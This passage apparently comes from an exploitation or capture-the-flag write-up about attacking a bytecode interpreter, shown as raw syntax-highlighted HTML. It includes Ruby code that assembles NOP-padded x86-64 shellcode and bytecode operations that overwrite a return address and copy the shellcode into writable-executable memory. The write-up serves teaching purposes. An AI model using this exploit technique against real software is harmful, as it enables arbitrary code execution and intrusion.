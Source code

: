     <span class="Comment"># And finally, this moves the bytes over</span>
    <span class="Special">&quot;</span><span class="Special">\xf3\xa4</span><span class="Special">&quot;</span> <span class="Comment"># rep movsb</span>

  <span class="Comment"># Pad the shellcode with NOP bytes so it can be used as an array of ints</span>
  <span class="Statement">while</span>((params.length % <span class="Constant">4</span>) != <span class="Constant">0</span>)
    params += <span class="Special">&quot;</span><span class="Special">\x90</span><span class="Special">&quot;</span>
  <span class="Statement">end</span>

  <span class="Comment"># Convert the shellcode to an array of ints</span>
  params = params.unpack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>)
</pre>

Basically, the first three arguments are wasted (the first gets messed up and the next two are the return address). Then we set up a call to "rep movsb", with rsi, rdi, and rcx set appropriately (and complicatedly). You can see how I did that in the comments. All told, it's 23 bytes of machine code.

It took me a lot of time to get that working, though! Squeezing out every single byte! It basically copies the code from the next bytecode function (whose address I can calculate based on r12) to the address immediately after itself in the +RWX memory (which I can leak beforehand).

This code is written to the +RWX memory using these operations:

<pre>
  ops = []

  <span class="Comment"># Overwrite teh reteurn address with the first two operations</span>
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, <span class="Constant">26</span>, <span class="Constant">1</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, <span class="Constant">27</span>, <span class="Constant">2</span>)

  <span class="Comment"># This next bunch copies shellcode from the arguments into the +rwx memory</span>
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">0</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">3</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">4</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">4</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">8</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">5</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">12</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">6</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">16</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">7</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">20</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">8</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_MOV</span>, ((<span class="Identifier">@@rwx_addr</span> + <span class="Constant">24</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>, <span class="Constant">9</span>)
</pre>
